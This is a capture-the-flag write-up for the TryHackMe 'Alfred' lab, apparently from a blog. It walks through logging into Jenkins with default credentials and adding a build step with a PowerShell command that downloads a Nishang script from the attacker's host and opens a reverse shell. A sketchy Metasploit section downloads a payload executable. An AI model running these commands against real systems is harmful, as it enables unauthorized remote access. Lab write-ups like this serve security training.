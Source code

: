#
header
#


# Alfred TryHackMe

#### Section 1 : Recon 

Let's kick it with a Nmap. 

![image](/assets/img/Alfred/nmap.png)

We can see that we have 2 http ports open. 
One on the port 80 and the other on port 8080.

Let's check them both.

On the first website we just have an Hearthbreaking news... Bruce Wayne is dead !

![image](/assets/img/Alfred/wayne.png)

I gathered no useful informations, even when I inspected the image. 

On the second website, we have a login page to connect to a jenkins server.
_If you don't know what Jenkins is :_ 
[!jenkins](https://www.jenkins.io/)

![image](/assets/img/Alfred/login.png)

I tried with default jenkins credential and with the famous admin:admin.
We are into the admin panel now ! 

![image](/assets/img/Alfred/panel.png)

The next task is to connect to the machin with a reverse shell with the help of powershell command.

We can see that we have a job avaible on the main page, click on it and go to the url: 
[!project](http://10.10.131.143:8080/job/project/)

We have a thing called "build" that we can run.

![image](/assets/img/Alfred/build.png)

This build execute any action that we want, upload a file, run a shell etc...

Go to the configuration page, scroll down to the Build part and you will see a windows where a command run every time we run the build. 

![image](/assets/img/Alfred/run.png)

I used this powershell script to have a remote shell. 
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.15.91:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.15.91 -Port 5555
```

Click save and prepare the file, a python server and a netcat listener. 

First, go to the github page to copy the command to a file called "Invoke-PowerShellTcp.ps1"
[!Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

You can see that I saved it in my directory prepared for the box.

![image](/assets/img/Alfred/save.png)

In the same directory, launch your python server so the machine can download the file and execute it.

![image](/assets/img/Alfred/python.png)
  
Last thing to setup, is a netcat listener on port 5555.

![image](/assets/img/Alfred/netcat.png)

Now go back to the webpage and click on "Build now".

![image](/assets/img/Alfred/buildnow.png)

You can see on the terminal where the python server is running that the file got downloaded.
And on the netcat terminal, you will be in (normally).

![image](/assets/img/Alfred/sucess.png)

You will be connected as bruce, go to his folder to find the user.txt

![image](/assets/img/Alfred/user.png)

#### Section 2 : Switching Shell with metasploit

- msfvenom 

- python 

```bash
powershell "(New-Object Net.WebClient).DownloadFile('http://10.11.15.91:8000/reverse_tcp.exe,'reverse_tcp.exe')"
```

- launch msfconsole

Set up the payload 

- execute it on the build.


